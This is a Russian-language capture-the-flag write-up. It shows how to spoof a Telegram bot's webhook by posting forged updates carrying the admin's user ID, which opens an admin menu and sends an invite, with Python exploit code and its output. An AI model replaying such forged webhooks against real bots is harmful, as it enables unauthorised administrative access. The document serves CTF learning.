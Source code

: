 Переходим по гифке которую отправил бот (pyrogram для просмотра исходника сообщеия), заходим в корень сайта. Видим 405: Method Not Allowed, пробуем POST, получаем `Use: ?action=<show_nginx_logs|start_ping>`

Делаем POST запрос с action=show_nginx_logs

```python
import httpx
r = httpx.post("https://t-altcapone-r1m0mt9a.spbctf.net?action=show_nginx_logs")
print(r.text)
```

Видим логи:

`[22/Apr/2024:10:55:53 +0000] "POST /telegram/webhook HTTP/1.0" 200 46 "-" "Python/3.10 aiohttp/3.8.4"`

`[22/Apr/2024:10:55:58 +0000] "POST /telegram/webhook HTTP/1.0" 200 46 "-" "Python/3.10 aiohttp/3.8.4"`

`[22/Apr/2024:10:56:03 +0000] "POST /telegram/webhook HTTP/1.0" 200 46 "-" "Python/3.10 aiohttp/3.8.4"`

`[22/Apr/2024:10:56:08 +0000] "POST /telegram/webhook HTTP/1.0" 200 46 "-" "Python/3.10 aiohttp/3.8.4"`

`[22/Apr/2024:10:56:13 +0000] "POST /telegram/webhook HTTP/1.0" 200 46 "-" "Python/3.10 aiohttp/3.8.4"`

`[22/Apr/2024:10:56:18 +0000] "POST /telegram/webhook HTTP/1.0" 200 46 "-" "Python/3.10 aiohttp/3.8.4"`

`[22/Apr/2024:10:56:23 +0000] "POST /telegram/webhook HTTP/1.0" 200 46 "-" "Python/3.10 aiohttp/3.8.4"`

`[22/Apr/2024:10:56:28 +0000] "GET /images/mafia.webp HTTP/1.0" 200 350418 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) marktext/0.17.1 Chrome/94.0.4606.81 Electron/15.4.0 Safari/537.36"`

Симулируем /admin от имени админа (Меню администратора доступно только @exmafiaguy, id админа получаем с помощью того же pyrogram'а

```python
import httpx
import random
admin_id = 6818118044
text_webhook = {
  "update_id": random.randint(1, 100000),
  "message": {
    "message_id": random.randint(1, 100000),
    "from": {
      "id": admin_id,
      "is_bot": False,
      "first_name": "John",
      "last_name": "Doe",
      "username": "johndoe",
      "language_code": "en"
    },
    "chat": {
      "id": admin_id,
      "first_name": "John",
      "last_name": "Doe",
      "username": "johndoe",
      "type": "private"
    },
    "date": random.randint(1, 100000),
    "text": "/admin"
  }
}
print(httpx.post("https://t-altcapone-r1m0mt9a.spbctf.net/telegram/webhook", json=text_webhook).text.encode('utf-8').decode('unicode-escape'))
# Вывод: {"chat_id": 6818118044, "text": "Выберите действие", "reply_markup": {"inline_keyboard": [[{"text": "Перезагрузить nginx", "callback_data": "inline_button_restartnginx"}], [{"text": "Атаковать example.org", "callback_data": "inline_button_ddosexample"}], [{"text": "Пинговать google.com", "callback_data": "inline_button_pinggoogle"}], [{"text": "Другие >>", "callback_data": "inline_button_nextpage"}]]}, "method": "sendMessage"

```

Пробуем послать callback_query чтобы перейти на другую страницу

```python
import httpx
import random
admin_id = 6818118044
callback_webhook = {
  "update_id": random.randint(1, 100000),
  "callback_query": {
    "id": random.randint(1, 100000),
    "from": {
      "id": admin_id,
      "is_bot": False,
      "first_name": "prgr",
      "username": "batadase",
      "language_code": "en",
      "is_premium": False
    },
    "chat_instance": "-1024699890573352454",
    "data": "inline_button_nextpage"
  }
}
print(httpx.post("https://t-altcapone-r1m0mt9a.spbctf.net/telegram/webhook", json=callback_webhook).text.encode('utf-8').decode('unicode-escape'))
# Вывод: {"chat_id": 6818118044, "text": "Выберите действие", "reply_markup": {"inline_keyboard": [[{"text": "Отправить приглашение", "callback_data": "inline_button_sendinvite"}]]}, "method": "sendMessage"}
```

Получилось, присылаем инвайт себе

```python
import httpx
import random
admin_id = 6818118044
text_webhook = {
  "update_id": random.randint(1, 100000),
  "message": {
    "message_id": random.randint(1, 100000),
    "from": {
      "id": admin_id,
      "is_bot": False,
      "first_name": "John",
      "last_name": "Doe",
      "username": "johndoe",
      "language_code": "en"
    },
    "chat": {
      "id": admin_id,
      "first_name": "John",
      "last_name": "Doe",
      "username": "johndoe",
      "type": "private"
    },
    "date": random.randint(1, 100000),
    "text": "549337111"
  }
}
callback_webhook = {
  "update_id": random.randint(1, 100000),
  "callback_query": {
    "id": random.randint(1, 100000),
    "from": {
      "id": admin_id,
      "is_bot": False,
      "first_name": "prgr",
      "username": "batadase",
      "language_code": "en",
      "is_premium": False
    },
    "chat_instance": "-1024699890573352454",
    "data": "inline_button_sendinvite"
  }
}
print(httpx.post("https://t-altcapone-r1m0mt9a.spbctf.net/telegram/webhook", json=callback_webhook).text.encode('utf-8').decode('unicode-escape'))
print(httpx.post("https://t-altcapone-r1m0mt9a.spbctf.net/telegram/webhook", json=text_webhook).text.encode('utf-8').decode('unicode-escape'))
```
